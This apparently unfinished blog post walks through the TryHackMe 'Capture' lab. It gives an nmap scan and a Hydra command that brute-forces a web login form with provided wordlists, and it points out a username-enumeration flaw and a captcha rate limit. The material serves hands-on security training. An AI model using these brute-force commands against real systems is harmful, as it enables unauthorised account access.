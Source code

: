 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe" "Python"
---
```


# Capture: Updating
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login usernames and password that will be used to brurteforce into the login form !

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website and its a login page, tried the usual default usernames and passwords. I noticed that it does say if the username exists or not!


## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha, for this we need to build a script!.





